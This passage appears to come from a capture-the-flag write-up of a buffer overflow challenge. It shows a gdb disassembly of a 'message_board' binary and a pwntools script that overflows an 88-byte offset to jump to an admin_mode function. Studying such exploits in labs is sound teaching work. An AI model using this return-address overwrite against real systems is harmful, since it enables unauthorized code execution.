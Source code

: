 ```console
   0x0000000000401378 <+51>:	mov    rax,QWORD PTR [rip+0x2d41]        # 0x4040c0 <stderr@@GLIBC_2.2.5>
   0x000000000040137f <+58>:	mov    rcx,rax
   0x0000000000401382 <+61>:	mov    edx,0x24
   0x0000000000401387 <+66>:	mov    esi,0x1
   0x000000000040138c <+71>:	lea    rdi,[rip+0xd1d]        # 0x4020b0
   0x0000000000401393 <+78>:	call   0x4010d0 <fwrite@plt>
   0x0000000000401398 <+83>:	mov    eax,0xffffffff
   0x000000000040139d <+88>:	jmp    0x4013f5 <main+176>
   0x000000000040139f <+90>:	lea    rax,[rbp-0x50]
   0x00000000004013a3 <+94>:	mov    edx,0x80
   0x00000000004013a8 <+99>:	mov    rsi,rax
   0x00000000004013ab <+102>:	lea    rdi,[rip+0xd23]        # 0x4020d5
   0x00000000004013b2 <+109>:	call   0x4011c2 <read_input>
   0x00000000004013b7 <+114>:	lea    rax,[rbp-0x50]
   0x00000000004013bb <+118>:	mov    rsi,rax
   0x00000000004013be <+121>:	lea    rdi,[rip+0xd1a]        # 0x4020df
   0x00000000004013c5 <+128>:	mov    eax,0x0
   0x00000000004013ca <+133>:	call   0x401070 <printf@plt>
   0x00000000004013cf <+138>:	mov    eax,DWORD PTR [rip+0x2cab]        # 0x404080 <g_flag2>
   0x00000000004013d5 <+144>:	cmp    DWORD PTR [rbp-0x4],eax
   0x00000000004013d8 <+147>:	jne    0x4013e4 <main+159>
   0x00000000004013da <+149>:	mov    eax,0x0
   0x00000000004013df <+154>:	call   0x401326 <admin_mode>
   0x00000000004013e4 <+159>:	lea    rdi,[rip+0xd01]        # 0x4020ec
   0x00000000004013eb <+166>:	call   0x401040 <puts@plt>
   0x00000000004013f0 <+171>:	mov    eax,0x0
   0x00000000004013f5 <+176>:	leave  
=> 0x00000000004013f6 <+177>:	ret    
End of assembler dump.
```

Now that we have our address and offset we can create our exploit. The cyclic offset was 88 but we need to add a \x00 to terminate it and begin inputing the address. Also the address needs a few null bytes to also read properly.

```python
#!/usr/bin/python3
from pwn import *

#context(os='linux', arch='amd64')
#libc = ELF('/home/htb-0xrogue/Downloads/challenge/glibc/libc.so.6')
e = ELF('message_board')
context.binary = e
p = e.process()
#p = remote("", )
junk="A"*87 + "\x00"
#system_call = p64(0x400700)
p.sendline("user")
p.sendline("easy_pass")
#p.recvline()
payload=(junk + "\xdf\x13\x40\x00\x00\x00\x00\x00")
#raw_input()
p.sendline(payload)
#p.sendline("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
p.recvline()
p.interactive()
```
